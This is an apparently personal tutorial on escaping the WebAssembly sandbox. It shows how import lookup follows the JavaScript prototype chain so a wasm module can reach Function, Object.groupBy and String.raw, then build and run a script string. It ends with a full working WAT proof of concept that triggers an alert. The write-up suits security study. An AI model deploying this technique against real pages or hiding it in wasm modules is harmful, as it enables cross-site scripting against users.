Resource  :
https://media.ccc.de/v/why2025-226-escaping-a-misleading-sandbox-breaking-the-webassembly-javascript-barrier
https://webassembly.github.io/spec/core/intro/introduction.html
https://developer.mozilla.org/en-US/docs/WebAssembly
https://phrack.org/issues/72/10_md#article


# What is wasm ? 
- In short, its used for optimizing some actions for the browser. It doesn't have any access to Dom or Javascript Web Api . The only way it can interact with that is through an **import object** .
- But we should learn some basic first . 

# Understanding WebAssembly text format
- There's 2 type of file , wat and wasm. But we should code in wat because it is readable form. 
- Some basic opcodes : 

1. Create module 
```js
    (module)
```
2. Function 
```js
    ( func <signature> <locals> <body> )
```
Example : 
```js
(func (param i32) (param f32) (local f64)
  local.get 0 => Lay param 0
  local.get 1 => lay param 1
  local.get 2) => lay bien cuc bo dau tien
```
- The main ideas is base on **STACK MACHINE VM** : 
 + Local.get will push the param 0 on the stack.
 + Local.set will pop the value from the stack and set into the param 0.
 
### Data types : 
- There's no string, array, object, blabla in web assembly.  
- It just has **Integer** , **Float** and **Reference type**
- Reference type has 3 things : 
    **funcref** → Reference to a WebAssembly function
    **externref** → Reference to an external (host/JavaScript) value, e.g., a DOM object or string
    **anyref** (older proposal, now split into more specific ones) → Supertype of all reference types
    
    
***IMPORTANT*** : 
```
externref is an opaque reference type, meaning:
It can hold any host (external) value that is passed in from outside WebAssembly.
Examples: JavaScript objects, DOM nodes, strings, functions, etc.

It is opaque to WebAssembly itself:

Wasm cannot inspect the contents (e.g., you can’t get the string length of a externref inside Wasm).

Wasm can only store it, pass it around, compare it, or return it back to the host.

All actual operations on the object must be done on the host side (e.g., JavaScript).
```

## Memory :  
- A contiguous block of raw bytes (like a giant array of bytes).
## Table :   
- A table is like a linear memory, but instead of holding bytes, it holds references (e.g., function references or extern references).

We can call a function from table with this :  
```js 
(func $f1 (result i32)
  i32.const 111)

(func $f2 (result i32)
  i32.const 222)

(func (export "callIndirect") (param i32) (result i32)
  local.get 0
  call_indirect (type $t) ;; calls table[index]
)
(type $t (func (result i32)))
```

## Javascript stuffs 
- So now we will talk about the Javascript. We understand that the wasm is just so strictly to do anything because its data type. But there's a support for using a **Import object** that allow the wasm run the Javascript code .

Example :  
```js 
(module
  (import "js" "log" (func $log (param i32)))
  (func (export "run")
    i32.const 42
    call $log
  )
)
```
- This will import the "log" function from namespace "js" from the Javascript put into and set with name $log then call with argument 42.
In the Javascript side , we have the following. 
```js 
const importObject = {
  js: { log: (x) => console.log("WASM says:", x) }
};

WebAssembly.instantiateStreaming(fetch("example.wasm"), importObject)
  .then(obj => {
    obj.instance.exports.run(); // → "WASM says: 42"
  });
```

Result in :  


So what's happen here ? The WASM itself not have any powerful magic . It just pass the function reference of console.log and call it with a number (even not a string). If the user not give any malicous importObject, the WASM should be very safe !! 

But ... 

# Escape sandbox  
At **WHY2025CTF** there's a super great talk about a technique that help us escape the sandbox and trigger XSS  : https://www.youtube.com/watch?v=-MS4BV0-ry4.

## Prototype chain  : 
- So first we will need to understand how the WASM defined to read the import objects. 

- So it loops through the module name and using the "GET" with our import object  and module name . So what is the "GET"


So it calls [[GET]]

So finally it will call the **OrdinaryGet** and the magic goes here. It will read the **PROTOTYPE** too !!!. This thing is something like prototype pollution, but now we have a proof why it exists ! 

So that's mean this code will work too ? 
```js 
    Object.prototype.js= {
        log : (x) => console.log("WASM says:", x)
    }
WebAssembly.instantiateStreaming(fetch("example.wasm"), {})
  .then(obj => {
    obj.instance.exports.run(); // → "WASM says: 42"
  });
```
Yes , it freaking works


But how this help us ?  Do you remember that the syntax in wat file is something like :  
```js 
    (import (namespace) (func))
```
What if we use use something like  : 
```js 
    Object.toString.constructor ( which is Function)
```
And in the wat , due to Prototype Chain we can import it likes this : 
```js 
 (import "toString" "constructor" (func  $function (param externref) (result externref)))
```
Full code  : 
```js 
(module
  (import "js" "log" (func $log (param externref)))
(import "toString" "constructor" (global  $function externref ))
  (func (export "run")
    global.get $function
    call $log
  )
)
```
```html 
<h1>HIHI</h1>
<script>
    importObject = {
        js : {
            log : (x) => console.log("WASM says:", x)
        }
    }
WebAssembly.instantiateStreaming(fetch("example.wasm"), importObject)
  .then(obj => {
    obj.instance.exports.run(); // → "WASM says: 42"
  });

</script>
```
Result in :  


Holy facks !!! It can trigger something super unintended.
So how from this we can trigger a xss ? Because we need something like  : 
```js 
    Function("alert()")()
```
But now just can call **Function()** without any string put into it ... We can put arguments into that but just number .. so unuseful...

## How to build a string .
- To solve this problems , we call use the String.fromCharCode . And to get the String.fromCharCode , we will need this  : 


So now we need to have a initial string and access its namespaces . There's so many ways we can have an initial string. Example : 



With the things that we can access the prorotype with wasm, this is super possible. Try to implement this into our wat.  
```js 
(module
  (import "js" "log" (func $log (param externref)))
  (import "constructor" "prototype" (global  $oops externref ))
    (import "constructor" "values" (func $values (param externref) (result externref)))
      (import "constructor" "getOwnPropertyNames" (func $getOwnProp (param externref) (result externref)))
  (func (export "run")

    (global.get $oops)
    call $values
    call $getOwnProp

    call $log
  )
)
```
Here we go !!! 

So how we can extract this string out ??. The only way gadget is **Object.groupBy** this is super useful in all this chain. 

- There's interesting in Object.groupBy is that the value return from the callback will set into key !!! Remember that because we need it so much.

Now, which callback should we use ? In fact, we can use our own WASM function to be the callback to solve this stuffs !!! 

- The ideas is just loop through to that index and save the values at that into our global vars externref !! We dont really read or write anythings in js because we follow the opaque !!

So let's implement that function into wat. We finally have : 
```js 
(module
    (import "js" "log" (func $log (param externref)))
    (import "constructor" "prototype" (global  $oops externref ))
    (import "constructor" "values" (func $values (param externref) (result externref)))
    (import "constructor" "getOwnPropertyNames" (func $getOwnProp (param externref) (result externref)))
    (import "constructor" "groupBy"
    (func $groupBy_i (param externref funcref) (result externref)))
    (global $g_n (mut i32) (i32.const 0))
    (global $g_nth_element (mut externref) (ref.null extern))

    (table 1 funcref)

    (elem (i32.const 0) $save_first_element)

    (func (export "run")
    (global.get $oops)
    call $values
    call $getOwnProp
    i32.const 0 
    call $array_get_nth_element
    call $log
    )
    
    (func $array_get_nth_element (param $arr externref) (param $n i32) (result externref)
        (local.get $n) 
        (global.set $g_n)
        ;; get funcref from table instead of raw ref.func
        (local.get $arr)
        (ref.func $save_first_element)   ;; ✅ now valid because $save_first_element is in elem
        call $groupBy_i
        drop
        (global.get $g_nth_element)
    )

    (func $save_first_element (param $val externref) (param $n i32)
    (if (i32.eq (local.get $n) (global.get $g_n))
      (then
        local.get $val
        global.set $g_nth_element
      )
    )
  )
)
```

- Because shows the code is too long so I hope you will try to code it .

## Access namespace 
- So the next step will be access the namespace to obtain the String.fromCharCode  .  The chains now is :  

- Test it to better understand the as well as code it out. Finally you will have the String.fromCharCode .

## Build char 
- So to build the chars, we will use Object.groupBy magic i told before !! 

- We can create a function in wat that just auto return the ord and put it as call back of the groupBy . 
- Then that value will be set into the keys. 
- After that, call Object.keys to extract that into an array. 
- Finally, again using the String.FromCharCode we get above to convert that array into a string and use Object.keys to read that and filter out the '\x00' out with $array_nth_element we get above.

## From char to string 
Chain :  

Here to create the "{'1':'H'}" , I implement a function like this  : 
```js 
    i32.const 1
    i32.const 97
    call $addKeyMapCharArray
    
  (func $addKeyMapCharArray (param $key i32) (param $char i32) 
      local.get $key
      local.get $char
      call $keyMapCharArray
      (global.get $prevObj)
      call $assign
      (global.set $prevObj)
  )
  (func $keyMapCharArray (param $key i32) (param $char i32)(result externref)
    (local.get $char)
    call $createChar
    (local.get $key)
    (global.set $charToGen)
    (ref.func $genChar)
    call $groupBy_i
  )
```

- So basically, it will use groupBy again with key is the value return from the callback and values is our string . Like this :  

- You see the groupBy is too powerfull :DD .
- Then my function will assign the result with $prevObj to build this chain : 

Then we call Object.values  to get an arrays.

Finally we will use the final methods is String.raw  (we can obtain this same as fromCharCode)


Okay so it should easy right ... just build a raw key with Object.groupBy and call String.raw with Object.groupBy again ... This patterns repeated until we win. 
- But wait, when we have the {raw : ....} and we call the String.raw with Object.groupBy , it will be error because we need an array !! So the only way we can do is  : 


- What am i doing here ? My main goal is to build an [{raw :...}] . To get that I use  the Object.values combine with Object.getOwnPropertyDesciptors to get an array with innerObject. Then merge our raw obj with innerObj we will finally have the things we need .


**String.raw not care about the other keys**
And finally we will have a string :) 
## From string  to Xss 
- So its to easy now , call the Function with our String as payload 
- Get the returned value and trigger by using groupBy again :) 
- Then bump to xss !!!! 

My final wat (its too dirty , sorry abt that ): 
```js 
(module
  (import "ns" "logger" (func $logger (param externref ))) 
  (import "toString" "constructor" (func  $function (param externref) (result externref)))
  (import "constructor" "prototype" (global  $oops externref))
  (import "constructor" "values" (func $values (param externref) (result externref)))
  (import "constructor" "getOwnPropertyNames" (func $getOwnProp (param externref) (result externref)))
  (import "constructor" "getPrototypeOf" (func $getProto (param externref) (result externref)))
  (import "constructor" "getOwnPropertyDescriptors" (func $getOwnDis (param externref) (result externref)))
  (import "constructor" "getOwnPropertyDescriptor" (func $getOneOwnDis (param externref externref)  (result externref)))
  (import "constructor" "keys" (func $getKeys (param externref) (result externref)))
  (import "constructor" "assign" (func $assign (param externref) (param externref)(result externref)))
  (import "constructor" "groupBy"
    (func $groupBy_i (param externref funcref) (result externref)))
  (import "constructor" "groupBy"
    (func $groupByFunc (param externref externref) (result externref)))
(import "constructor" "groupBy"
    (func $groupByI32Func (param i32 funcref) (result externref)))


  ;; define a table to hold function references
  (table 3 funcref)

  ;; init table with your callback
  (elem (i32.const 0) $save_first_element $genChar $genRawChar)

  (global $g_n (mut i32) (i32.const 0))
  (global $g_nth_element (mut externref) (ref.null extern))
  (global $stringProto (mut externref) (ref.null extern))
  (global $s_fromCharCode (mut externref) (ref.null extern))
  (global $s_raw (mut externref) (ref.null extern))
  (global $f_fromCharCode (mut externref) (ref.null extern))
  (global $f_raw (mut externref) (ref.null extern))
  (global $charToGen (mut i32) (i32.const 0))
  (global $resultString (mut externref) (ref.null extern))
  (global $prevObj (mut externref) (ref.null extern))
  (global $raw_obj (mut externref) (ref.null extern))
  (global $arrWithObj (mut externref) (ref.null extern))
  (global $temp (mut externref) (ref.null extern))
  (global $finalString (mut externref) (ref.null extern))
  (global $executeCode (mut externref) (ref.null extern))

  (func $main
    global.get $oops
    call $values 
    call $getOwnProp
    i32.const 0
    call $array_get_nth_element ;; get own propp
    call $getProto
    call $getOwnDis
    call $values 
    i32.const 1
    call $array_get_nth_element ;; get own propp
    call $values 
    i32.const 0
    call $array_get_nth_element ;; get own propp
    (global.set $stringProto)
    (global.get $stringProto)
    ;; Object.keys(Object.getOwnPropertyDescriptors(String)) 
    ;; Get func  fromCharfcode
    call $getOwnDis
    call $getKeys
    i32.const 3
    call $array_get_nth_element
    (global.set $s_fromCharCode)
    (global.get $stringProto)
    (global.get $s_fromCharCode)
    call $getOneOwnDis
    call $values
    i32.const 0
    call $array_get_nth_element
    (global.set $f_fromCharCode)

    ;; Get func  string .raw

    (global.get $stringProto)
    call $getOwnDis
    call $getKeys
    i32.const 5
    call $array_get_nth_element
    (global.set $s_raw)
      (global.get $stringProto)
    (global.get $s_raw)
    call $getOneOwnDis
    call $values
    i32.const 0
    call $array_get_nth_element
    (global.set $f_raw)


    ;;; MAP key => ['CHAR']
    i32.const 1
    i32.const 97
    call $keyMapCharArray
    (global.set $prevObj)

      i32.const 2
    i32.const 61
    call $addKeyMapCharArray


    i32.const 3
    i32.const 49
    call $addKeyMapCharArray


    i32.const 4
    i32.const 59
    call $addKeyMapCharArray


    i32.const 5
    i32.const 32
    call $addKeyMapCharArray


    i32.const 6
    i32.const 97
    call $addKeyMapCharArray


    i32.const 7
    i32.const 108
    call $addKeyMapCharArray


    i32.const 8
    i32.const 101
    call $addKeyMapCharArray


    i32.const 9
    i32.const 114
    call $addKeyMapCharArray


    i32.const 10
    i32.const 116
    call $addKeyMapCharArray

    i32.const 11
    i32.const 40
    call $addKeyMapCharArray

    i32.const 12
    i32.const 41
    call $addKeyMapCharArray

    ;; build {raw:[["H","A"]]}
    (global.get $prevObj)
    call $values 
    (ref.func $genRawChar)
    call $groupBy_i
    (global.set $raw_obj)
    ;; Build array to use ObjectGroup By tricks
    (global.get $raw_obj)
    call $getOwnDis
    call $values
    (global.set $arrWithObj)
    (global.get $arrWithObj)
    i32.const 0
    call $array_get_nth_element
    (global.get $raw_obj)
    call $assign
    (global.set $temp)

    (global.get $arrWithObj)
    (global.get $f_raw)
    call  $groupByFunc
    call $getKeys
    i32.const 0
    call $array_get_nth_element
    (global.set $finalString)
    ;; NOW WE FUCK THE GAMES CALL THE FUNCTIONS(STRING PAYLOAD) WITH OBJ GROUP BY 
    (global.get $finalString)
    


;; call Function("faaeklf") to get function returned
    call $function 
    (global.set $executeCode)
    ;; Call the return function with gorup by
    (global.get $arrWithObj)
    (global.get $executeCode)
    call  $groupByFunc

    call $logger

    ;; need to do some callback here 

  )
  (func  $genRawChar   (param $val externref) (param $n i32) (result externref) 
    (global.get $s_raw)
  )
  (func $addKeyMapCharArray (param $key i32) (param $char i32) 
      local.get $key
      local.get $char
      call $keyMapCharArray
      (global.get $prevObj)
      call $assign
      (global.set $prevObj)
  )
  (func $keyMapCharArray (param $key i32) (param $char i32)(result externref)
    (local.get $char)
    call $createChar
    (local.get $key)
    (global.set $charToGen)
    (ref.func $genChar)
    call $groupBy_i
  )

  (func $createChar (param $ord i32)(result externref)
    (local.get $ord)
    (global.set $charToGen)
    (global.get $s_fromCharCode)
        call $getKeys
        (ref.func $genChar)
        call $groupBy_i
        call $getKeys
        (global.get $f_fromCharCode) ;; it works =)))))))
        call $groupByFunc
        call $getKeys
        i32.const 0
        call $array_get_nth_element
        i32.const 0
        call $array_get_nth_element
    )

  (func $save_first_element (param $val externref) (param $n i32)
    (if (i32.eq (local.get $n) (global.get $g_n))
      (then
        local.get $val
        global.set $g_nth_element
      )
    )
  )

  (func $array_get_nth_element (param $arr externref) (param $n i32) (result externref)
    (local.get $n) 
    (global.set $g_n)
    ;; get funcref from table instead of raw ref.func
    (local.get $arr)
    (ref.func $save_first_element)   ;; ✅ now valid because $save_first_element is in elem
    call $groupBy_i
    drop
    (global.get $g_nth_element)
  )

  (func $genChar (param $arr externref)(param $ord i32) (result i32)
    (global.get $charToGen)
  )
  (start $main)
)

```
We get it !! 


Or you can read of the author payload here https://archives.phrack.org/dl/72/10/popping-poc.wat ,  but I recommend coding it because its fun.
